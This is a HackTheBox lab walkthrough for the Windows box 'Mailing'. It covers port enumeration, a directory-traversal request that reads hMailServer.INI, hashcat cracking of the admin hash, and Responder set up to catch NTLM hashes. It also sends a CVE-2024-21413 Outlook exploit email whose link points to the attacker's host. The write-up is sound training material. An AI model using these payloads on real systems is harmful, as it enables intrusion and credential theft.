


# Mailing — HackTheBox Walkthrough

**Platform:** HackTheBox
**Difficulty:** Easy
**OS:** Windows

---

## TL;DR

Directory traversal vulnerability in `download.php` allows reading `hMailServer.INI` → Cracking the extracted MD5 hash reveals hMailServer administrator credentials → Exploiting a Microsoft Outlook Remote Code Execution vulnerability (CVE-2024-21413) by sending a malicious email to a domain user → Capturing the NTLM hash via Responder → ... (Exploitation path continues via external walkthrough).

---

## Enumeration

Full nmap scan:

```bash
nmap -sC -sV -p- -n -Pn --min-rate=1024 10.10.11.14
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 25 | SMTP | hMailServer smtpd |
| 80 | HTTP | Microsoft IIS httpd 10.0 |
| 110 | POP3 | hMailServer pop3d |
| 135 | RPC | Microsoft Windows RPC |
| 139 | NetBIOS | Microsoft Windows netbios-ssn |
| 143 | IMAP | hMailServer imapd |
| 445 | SMB | microsoft-ds |
| 465 | SMTPS | hMailServer smtpd |
| 587 | SMTP | hMailServer smtpd |
| 993 | IMAPS | hMailServer imapd |
| 5985 | WinRM | Microsoft HTTPAPI httpd 2.0 |

The box (`mailing.htb`) is heavily focused on email services, running `hMailServer` across all standard mail ports, alongside an IIS web server on port 80.
We add `mailing.htb` to our `/etc/hosts` file.

Running Gobuster on port 80 reveals a `/download.php` script:

```bash
gobuster dir -u http://mailing.htb -w /usr/share/wordlists/dirb/big.txt -x php
```

Browsing the site reveals employee names: Ruy Alonso, Maya Bendito, and Gregory Smith. Translating these to potential email addresses gives us targets like `maya@mailing.htb`.

---

## Exploitation — LFI to hMailServer Credentials

Upon inspecting the website, we find a file download function mapped to `download.php`. It takes a `file` parameter. 

We test for Local File Inclusion (LFI) / Directory Traversal by attempting to traverse back to the `C:\` drive. A great file to test Windows LFI is `\windows\system32\license.rtf` because it is present on almost all modern Windows systems.

Once LFI is confirmed, we target the configuration file for the mail server running on the machine (`hMailServer`). By default, its configuration is stored at `C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI`.

We craft our LFI payload:

```text
GET /download.php?file=../../../../Program+files+(x86)/hMailServer/Bin/hMailServer.INI
```



The server returns the `.ini` file. Inside, we find two MD5 hashes:
- Administrator Hash: `841bb5acfa6779ae432fd7a4e6600ba7`
- MSSQLCE Hash: `0a9f8ad8bf896b501dde74f08efd7e4c`

We crack the Administrator hash offline using Hashcat (Mode 0) and the RockYou wordlist:

```bash
hashcat -m 0 admin.hash /usr/share/wordlists/rockyou.txt --force
```

The password cracks successfully: `administrator@mailing.htb : homenetworkingadministrator`.

---

## Privilege Escalation — Outlook RCE (CVE-2024-21413)

With administrative control over the mail server (or at least valid credentials to send mail), we look for recent client-side vulnerabilities affecting mail clients, given the context of the machine.

CVE-2024-21413 (Moniker Link Bug) is a critical vulnerability in Microsoft Outlook that allows attackers to bypass the Office Protected View and force the victim's client to leak their NTLM hash (or execute code) simply by clicking a malicious link (using the `file://` protocol with the `!` moniker).

We find a public Python exploit for this CVE:
`https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability`

We start Responder on our attacker machine to catch the incoming NTLM authentication request:

```bash
sudo responder -I tun0 -A
```

Then, we use the exploit script to send a malicious email to one of the employees we enumerated earlier (`maya@mailing.htb`), authenticating via the SMTP port 587 using our cracked credentials:

```bash
python3 CVE-2024-21413.py \
  --server mailing.htb \
  --port 587 \
  --username administrator@mailing.htb \
  --password homenetworkingadministrator \
  --sender administrator@mailing.htb \
  --recipient maya@mailing.htb \
  --url "\\10.10.14.10\test\lol" \
  --subject test
```

*Note: For the full exploitation path to SYSTEM, refer to the video walkthrough: https://www.youtube.com/watch?v=hHBkx31XuDw*

---

## Key Takeaways

- **LFI in Download Scripts:** Scripts designed to serve files (`download.php?file=`) are historically prone to directory traversal if the input is not strictly sanitized or restricted to a specific directory enclosure.
- **Client-Side Attacks:** Sometimes the vulnerability is not in the server, but in the software the employees use to read data from the server. The Moniker Link bug in Outlook allowed complete domain compromise via a single clicked link.



---

*Thanks for reading! Follow for more HackTheBox walkthrough content.*